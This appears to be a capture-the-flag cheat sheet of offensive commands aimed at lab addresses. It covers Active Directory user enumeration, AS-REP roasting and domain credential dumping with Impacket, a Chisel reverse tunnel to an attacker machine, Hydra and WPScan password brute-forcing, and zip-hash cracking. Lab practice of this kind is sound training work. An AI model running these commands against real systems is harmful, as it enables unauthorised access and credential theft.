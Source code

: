 ## Active Directory

### Kerbrute
```
kerbute userenum --dc 10.10.117.125 -d spookysec.local user_list.txt
```
### GetNPUsers.py (Impacket)
```
python /opt/impacket/examples/GetNPUsers.py -no-pass -usersfile user.txt -dc-ip 10.10.117.125 spookysec.local/
```
### Secretsdump.py (Impacket)
```
python3 /opt/impacket/examples/secretsdump.py -just-dc <user>@10.10.117.125
```

<br>
<br>

## Binwalk (data extraction)

```
binwalk <image> -e
```
<br>
<br>

## Chisel

```
chisel server -p 8001 --reverse
```
```
./chisel_amd64 client 10.50.111.37:8001 R:socks &
```
<br>
<br>

## Hydra
### WEB
```
hydra -l molly -P /usr/share/wordlists/rockyou.txt 10.10.0.156 http-post-form "/login:username=^USER^&password=^PASS^:Your username or password is incorrect."
```
### SSH
```
hydra -l molly -P /usr/share/wordlists/rockyou.txt ssh://10.10.0.156
```
### FTP
```
hydra -l <user> -P /usr/share/wordlists/rockyou.txt ftp://<ip>
```
<br>

## JohnTheRipper (hash zipfile)

```
zip2john file.zip > zip.hash 
john file.zip zip.hash

```
<br>

## steghide

```
steghide extract -sf image.jpg
```

<br>

## WPSCAN

```
wpscan --url 10.10.188.11 -U kwheel -P /usr/share/wordlists/rockyou.txt
```
Fonctionne aussi avec une liste de user pour l'option `-U`

<br>

## 7z Deziper avec password

```
7z e file.zip
```
